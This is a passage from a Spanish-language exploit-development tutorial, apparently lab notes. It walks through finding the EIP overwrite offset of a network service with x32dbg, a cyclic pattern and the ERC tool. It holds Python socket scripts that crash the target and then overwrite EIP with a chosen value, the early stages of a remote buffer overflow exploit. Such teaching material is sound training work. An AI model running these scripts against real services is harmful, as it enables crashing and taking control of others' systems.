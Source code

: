 Ahora comenzamos a escribir nuestra `eip_offset()` función. Agregaremos nuestra `pattern` variable como con el patrón `Ascii` en el `Pattern_Create_1.txt`archivo creado en nuestro escritorio, como hicimos con nuestro exploit anterior. Después de eso, para enviar nuestro patrón, podemos usar el mismo código que usamos para fuzzear el puerto:

```python
def eip_offset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(pattern)
    s.close()

eip_offset()
```

Una vez que nuestra `eip_offset()` función esté lista, podemos reiniciar nuestro programa `x32dbg` y ejecutar nuestro código, y nuestro programa debería bloquearse y deberíamos ver `EIP` sobrescrito con nuestro patrón como `316A4230`:

![](../../Images/Pasted%20image%2020240925170022.png)

Ahora podemos usar `ERC --pattern o 1jB0` para calcular el desplazamiento exacto, que se encuentra en `1052` bytes:

![](../../Images/Pasted%20image%2020240925170034.png)

Ahora, para asegurarnos de que podemos controlar el valor exacto en `EIP`, usaremos la misma `eip_control()`función de nuestro exploit anterior (mientras cambiamos `offset`), pero usando `socket`para enviar nuestra carga útil en lugar de escribirla en un archivo:

```python
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

eip_control()
```
